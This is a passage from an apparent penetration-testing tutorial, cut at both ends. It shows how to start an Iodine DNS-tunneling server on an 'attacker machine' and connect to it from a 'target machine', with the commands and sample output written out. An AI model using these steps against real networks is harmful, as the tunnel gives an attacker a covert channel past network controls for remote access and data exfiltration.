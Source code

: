     - Domain: `example.com`
    - Subdomain for tunneling: `tunnel.example.com` → points to `123.45.67.89`
    
    ### **1.3 Start the Iodine Server on Your Attacker Machine**
    
    Run the following command to start the DNS tunneling server. Assign an internal IP (like `10.0.0.1`) to the virtual network interface.
    
    ```bash
    sudo iodined -f 10.0.0.1 tunnel.example.com
    
    ```
    
    Here:
    
    - `f` makes Iodine run in the foreground (you can omit this if you want it to run in the background).
    - `10.0.0.1` is the IP address assigned to the virtual interface on the DNS tunnel.
    - `tunnel.example.com` is the subdomain you set up for tunneling.
    
    After running the command, you should see output indicating the Iodine server is running, similar to this:
    
    ```bash
    Opened dns0
    Sending fake version: Iodine 0.7.0
    Setting IP of dns0 to 10.0.0.1
    Ready, tunnel.example.com is up and running.
    
    ```
    
    ---
    
    ### **Step 2: Set up DNS Tunneling on the Target Machine**
    
    Now that the DNS tunnel server is running on your attacker machine, you need to configure the target machine to connect to it via DNS tunneling.
    
    ### **2.1 Install Iodine on the Target Machine**
    
    If Iodine is not already installed on the target machine, and you have enough privileges, install it:
    
    ```bash
    sudo apt-get install iodine
    
    ```
    
    ### **2.2 Start the Iodine Client on the Target Machine**
    
    Run the following command on the target machine to connect to your DNS tunneling server:
    
    ```bash
    sudo iodine -f 123.45.67.89 tunnel.example.com
    
    ```
    
